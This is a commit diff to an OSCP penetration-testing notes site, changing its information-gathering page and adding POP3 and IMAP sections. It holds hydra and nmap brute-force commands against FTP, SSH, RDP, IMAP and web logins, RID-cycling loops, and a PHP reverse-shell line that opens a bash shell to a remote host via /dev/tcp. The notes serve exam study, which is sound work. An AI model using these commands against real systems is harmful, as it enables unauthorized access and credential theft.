

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/10_info_gathering.md, in a window 1280 px wide and 1400 px high, scrolled down 4302 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add refactoring, fixes and gathering ports

````diff
--- a/docs/10_info_gathering.md
+++ b/docs/10_info_gathering.md
@@ -57,7 +57,7 @@
 locate .nse | grep <name>
 locate .nse | xargs grep categories
 nmap --script-help <name>
-nmap --script=<name> <ip>
+nmap --script <name> -p <port> <ip>
 # example
 nmap -sV -p 445 --script smb-ls <ip>
 ```
@@ -92,7 +92,7 @@
 get <file>
 
 # burteforce
-hydra -l <USER> -P <WORDLIST> ftp://<ip>
+hydra ftp://<ip> -l <user> -P <wordlist>
 
 # nse
 locate .nse | grep ftp
@@ -108,7 +108,7 @@
 ssh username@<ip> -i <key>
 
 # bruteforce
-hydra -l <user> -P <wordlist> -s <port> ssh://<ip>
+hydra ssh://<ip> -l <user> -P <wordlist> -s <port>
 ```
 
 ### SMTP - 25
@@ -179,7 +174,7 @@
 dig @<ip> <domain> axfr
 ```
 
-### HTTP/S - 80, 443
+### HTTP - 80, 443 (TLS)
 
 - Technology stack identification with [Wappalyzer](https://www.wappalyzer.com/) , Nmap or whatweb.
 - Check **robots**, sitemap, 404 and SSL/TLS scan.
@@ -204,7 +199,7 @@
 wfuzz -w <wordlist> <URL>/FUZZ
 feroxbuster -u <url> -w <wordlist> -t 60 -x pdf,txt
 
-# brute force login page with Burpsuite intruder or Hydra
+# brute force login page with Caido or Hydra
 hydra -L <userlist> -P <wordlist> <target> http-{get|post}-form "/login:username=^USER^&password=^PASS^:F=Login failed. Invalid"
 # basic auth
 hydra -L <userlist> -P <wordlist> <target> http-{get|post} /
@@ -244,6 +239,24 @@
 exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'") ?>
 
 zip -r rs.zip rs
+```
+
+### POP3 - 110, 995 (TLS)
+
+```shell
+telnet <ip> <port>
+
+# commands
+USER uid           Log in as "uid"
+PASS password      Substitue "password" for your actual password
+STAT               List number of messages, total mailbox size
+LIST               List messages and sizes
+RETR n             Show message n
+DELE n             Mark message n for deletion
+RSET               Undo any changes
+QUIT               Logout (expunges messages if no RSET)
+TOP msg n          Show first n lines of message number msg
+CAPA               Get capabilities
 ```
 
 ### NFS - 111, 2049
@@ -322,6 +335,19 @@
 querydispinfo
 ```
 
+### IMAP - 143, 993 (TLS)
+
+> [Commands examples](https://donsutherland.org/crib/imap)
+
+```shell
+# brute force
+hydra imap://<ip> -L <userlist> -P <wordlist>
+nmap -sV --script imap-brute -p <port> <ip>
+
+# connect to server
+telnet <ip> <port>
+```
+
 ### SNMP - 161/udp
 
 ```shell
@@ -410,7 +436,7 @@
 nxc rdp <ip> -u <user> -p <pass>
 
 # bruteforce
-hydra -L <USERS> -p <PASSWORD> rdp://<IP>
+hydra rdp://<ip> -L <userlist> -P <wordlist>
 ```
 
 #### RPC RID Cycling Attack
@@ -428,7 +454,7 @@
 seq 400 2000 | xargs -P 50 -I {} rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-{}'
 ```
 
-### WinRM - 5985 (HTTP), 5986 (HTTPS)
+### WinRM - 5985, 5986 (TLS)
 
 ```shell
 nxc winrm <ip> -d <domain> -u userlist -p passwordlist
````
Also changed, not shown: other parts of docs/10_info_gathering.md (+1 -6 lines), docs/12_client-side_attacks.md (+8 -0 lines), docs/17_port_red_tun.md (+17 -7 lines), docs/19_ad_exploitation.md (+5 -4 lines).
